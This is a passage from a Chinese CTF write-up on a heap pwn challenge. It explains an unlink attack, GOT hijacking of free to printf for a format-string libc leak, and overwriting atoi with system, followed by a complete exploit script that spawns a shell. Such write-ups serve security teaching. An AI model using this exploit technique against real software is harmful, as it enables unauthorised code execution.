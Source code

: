 我们的思路是先让 `current_ptr` 指向 `note3`，然后利用越界覆盖一个 `fake_chunk` 到 `note3` 上，再释放 `note4` 触发 unlink，此时 `note3_ptr` 指向 `note0_ptr`，这样就可以实现 GOT 劫持。

但是本题的 `show` 功能被禁用，而我们还需要泄露 libc 地址。这里用的方法是在 bss 段空余处写入 `%llx.`，然后把 `free` 先劫持到 `printf`，去打印这一段格式化字符串，相当于手动造了一个格式化字符串漏洞。这样就可以泄露栈上内容，从而泄露位于栈上的 `__libc_start_main_ret` 地址（一般位于偏移量 11 处）。最后泄露 libc 得到 `system` 地址，覆盖 `atoi` 即可。

```python
def add(len,content='a'*8):
    sla('>>','1')
    sla('1024)',str(len))
    sla('content:',content)

def show(index):
    sla('>>','2')
    sla('note:',str(index))

def edit(index,content):
    sla('>>','3')
    sla('note:',str(index))
    sla('content:',content)

def delete(index):
    sla('>>','4')
    sla('note:',str(index))

negative = 0x8000000000000000
for i in range(8):
    add(0x200)
edit(3,'a')
fd = 0x6020c8+0x8*3-0x18
bk = 0x6020c8+0x8*3-0x10
fake_chunk = flat(0,0x201,fd,bk).ljust(0x200,'a')
fake_chunk += flat(0x200,0x210)
edit(-negative,fake_chunk)
delete(4)

edit(3,p64(elf.got['free']))
edit(0,p64(elf.plt['printf'])*2)

bss_blank = 0x602100
edit(3,p64(bss_blank))
edit(0,'%llx.'*0x10)
delete(0)
lsmr = int(ru('success').split('.')[10],16)
system,binsh = ret2libc(lsmr,'__libc_start_main_ret')
edit(3,p64(elf.got['atoi']))
edit(0,p64(system))

sla('>>','/bin/sh\x00')
```

### 0ctf_2018_heapstorm2
